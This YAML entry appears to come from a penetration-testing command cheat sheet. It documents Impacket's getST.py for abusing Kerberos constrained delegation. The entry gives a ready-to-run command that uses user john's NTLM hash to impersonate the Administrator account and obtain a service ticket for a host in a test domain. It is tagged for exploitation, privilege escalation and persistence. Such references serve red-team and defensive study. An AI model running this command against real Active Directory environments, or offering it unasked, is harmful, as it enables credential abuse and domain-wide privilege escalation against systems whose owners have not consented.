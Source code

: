 ```yaml
---
description: |
  Impacket's getST.py will request a Service Ticket and save it as ccache. If the account has constrained delegation privileges, you can use the `-impersonate` flag to request a ticket on behalf of another user. The following command will impersonate the Administrator account using the hashed password of user `john` and request a Service Ticket on its behalf for the `www` service on host `server01.test.local`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Service: www

  	Host Name: server01.test.local

  	Username: john

  	Hash: :2a3de7fe356ee524cc9f3d579f2e0aa7

  	Impersonated User: Administrator

command: |
  python3 getST.py -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7 -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/john
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
phases:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

